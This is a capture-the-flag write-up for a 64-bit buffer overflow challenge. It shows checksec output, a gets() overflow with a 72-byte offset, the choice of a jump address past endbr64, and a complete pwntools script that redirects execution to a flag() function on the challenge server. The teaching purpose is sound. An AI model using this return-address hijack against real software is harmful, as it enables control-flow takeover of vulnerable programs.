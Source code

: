 ## 📄 Challenge Write-Up — "64-bit Buffer Overflow to `flag()`"

### 🔍 Challenge Description

We are given a 64-bit ELF binary (`vuln`) that prints:

> "Welcome to 64-bit. Give me a string that gets you the flag:"

And we must provide an input that will cause it to read and print the contents of `flag.txt`.

---

## 🧠 Binary Analysis

### 🔧 Security Protections

Using `checksec vuln`:

```
[*] '/path/to/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (Executable base is static)
```

➡️ Important observations:

* **No stack canary** → classic buffer overflow possible.
* **NX enabled** → can't inject shellcode; need to reuse existing functions.
* **PIE disabled** → static binary base → function addresses are fixed.

---

### 🔎 Vulnerable Function

```c
void vuln() {
    char buf[64];
    gets(buf);  // ❌ No bounds checking!
}
```

* `gets()` is **unsafe** and allows us to overflow the return address.
* Stack layout:

  * `buf` = 64 bytes
  * * saved `rbp` = 8 bytes
  * * return address = 8 bytes
      ➜ Total offset to overwrite return address = **72 bytes**

---

### Goal: Call `flag()`

```c
void flag() {
    FILE *f = fopen("flag.txt", "r");
    ...
    fgets(buf, FLAGSIZE, f);
    printf(buf);
}
```

* No arguments required.
* Just hijack RIP to point to `flag()`.

---

## 🧨 Exploit

### 🧠 Why `0x40123b`?

Disassembly of `flag()`:

```asm
0x00401236 <flag>:
    endbr64           ; CET instruction
0x0040123a: push rbp
0x0040123b: mov rbp, rsp
```

Calling `0x401236` directly might **fail** on some hardened systems due to `endbr64`. click [here](./endbr64.md) to learn more about endbr64


Jumping to `0x40123b` (just past `endbr64` and `push rbp`) lands you right at `mov rbp, rsp`, which works as expected.

So, `flag_addr = 0x40123b`.

---

### 🧪 Final Exploit Script

```python
from pwn import *

# ==== Configuration ====
DEBUG = False
HOST = 'saturn.picoctf.net'
PORT = 60443

elf = context.binary = ELF('./vuln')
context.log_level = 'debug'
context.bits = 64

# ==== Exploit Parameters ====
offset = 72
flag_addr = 0x40123b  # flag() function (skipping endbr64 and push rbp)

# ==== Start Local or Remote ====
if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

# ==== Build Payload ====
payload = b"A" * offset
payload += p64(flag_addr)

# ==== Exploit ====
p.sendline(payload)
p.interactive()
```

---

## ✅ Exploit Result

When run:

![result](./img/result.png)

Success! We hijacked execution and printed the flag.

---



---

